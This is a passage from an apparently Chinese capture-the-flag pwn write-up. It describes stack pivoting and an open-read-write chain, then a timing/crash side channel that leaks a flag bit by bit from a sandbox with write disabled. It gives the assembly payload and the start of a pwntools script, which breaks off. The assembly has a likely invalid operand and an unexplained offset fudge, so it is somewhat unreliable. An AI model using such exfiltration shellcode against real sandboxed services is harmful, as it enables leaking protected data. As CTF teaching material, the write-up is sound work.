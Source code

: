 这题是啥保护都没开的,所以我直接栈迁移到bss段,然后写了个0x200的超大`read()`,然后再栈迁移过去进行orw.

整个流程在线下进行的相当顺利,但线上刚把payload1发过去就会eof(就很神秘).

既然这道题算是白写了,那就顺便试试侧信道吧(其实是找不到合适的题)

#### 3:orw,但是没有w

现在,让我们假装这道题的沙箱把`write`,`sendfile`之类的东西都给禁用了.

在这种情况下,程序能向我们传达的唯一一个有效信息就是----它有没有在工作.假如我们设计一个恰当的payload,就能让程序在某些情况下崩溃,从而返回EOF,以及收到连接断开的信息;在另一些情况下则陷入死循环.这样,程序每次运行就可以向我们传递1bit的信息.

既然如此,我们可以设计一个这样的机制:我们向程序发送一个数,告诉它我们想知道flag的第几位,如果这一位为0,则程序崩溃;如果这一位为1,则程序进入死循环.之后我们反复执行这一操作,直到接收完整的flag.

那么为了实现这一点,我们需要构造一个合适的payload:

```assembly
    mov rsi, 0x601E00;
    add rsi, [offset1]-1 ;
    mov rdx, byte [rsi] ; 
    shr rdx, [offset2] ;
    and rdx, 1 ;
    cmp rdx, 0 ;
    je end_if;
    loop:
        jmp loop ;
    end_if:
```

其中`offset1`是访问的字节的偏移(第几个字母),`offset2`是字节内二进制位的偏移.

` mov rsi, 0x601E00 ;`将`rsi`移动到flag起始的地址

` add rsi, [offset1]-1 ;`根据我们事先确定的偏移,再次移动`rsi`的位置(如0则是第一个字母,1则是第2个字母)(那个-1是不知道怎么回事,读取到的flag总是偏后面一个字节,于是就给它减了1)

`mov rdx, byte [rsi] ;`将`rsi`存储的内容赋值给`rdx`(其实直接在`rsi`上操作也行)

`shr rdx, [offset2] ;`通过将`rdx`右移,从而将第`offset2`位移动到最低位

`and rdx, 1 ;`将`rdx`与`0b1`与运算,只保留最低位

`cmp rdx, 0 ; je end_if ; `将`rdx`与`0b0`比较,如果为真则跳转到`end_if`

`loop: jmp loop ; `否则顺序执行,进入死循环

`end_if:`使程序跳转到一个没有后续语句的地址进行执行,触发eof

这样,我们就可以通过侧信道泄露的方法逐位获取flag

当然,让我们手动完成这一切显然是不可能的,所以我们利用python的自动错误处理,编写脚本如下:

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
#libc=ELF("./libc-2.27.so")
#r=remote("node5.anna.nssctf.cn",27599)

#gdb.attach(r)
#pause()
#00601000-00602000
bss_add=0x601A00
read_add=0x400931
def solve_random():
	r.recvuntil("please input a guess num:\n")
	for i in range(99): 
		r.sendline(b"25")
		recv_=r.recv()
		if "good guys" in recv_:
			return 0
```